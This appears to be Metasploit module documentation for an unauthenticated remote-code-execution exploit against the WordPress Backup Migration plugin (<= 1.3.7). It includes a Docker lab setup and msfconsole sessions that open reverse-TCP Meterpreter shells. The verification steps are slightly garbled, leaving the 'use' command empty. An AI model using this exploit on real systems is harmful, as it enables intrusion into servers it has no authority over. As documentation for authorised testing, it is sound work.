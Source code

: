 ## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /wp-content/plugins/backup-backup/includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

## Setup

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:

```
version: "3"
  # Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "5555:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:5555
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
  # Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:5555` and you'll be redirected and asked to setup the WordPress site. This includes
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running.

## Options
No options

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress application.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.0)

Using `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 192.168.1.36
rhosts => 192.168.1.36
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rport 5555
rport => 5555

msf6 exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.36     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      5555             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory


msf6 exploit(multi/http/wp_backup_migration_php_filter) > exploit 

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (39927 bytes) to 172.18.0.3
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.18.0.3:50136) at 2024-08-24 17:04:19 +0200

meterpreter > sysinfo 
Computer    : e409ace0b2a9
OS          : Linux e409ace0b2a9 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > getuid 
Server username: www-data
meterpreter >
```

Using `cmd/linux/http/x6/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > exploit 

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 8 opened (192.168.1.36:4444 -> 172.18.0.3:48014) at 2024-08-24 17:06:58 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 12.5 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: www-data
meterpreter > 
```
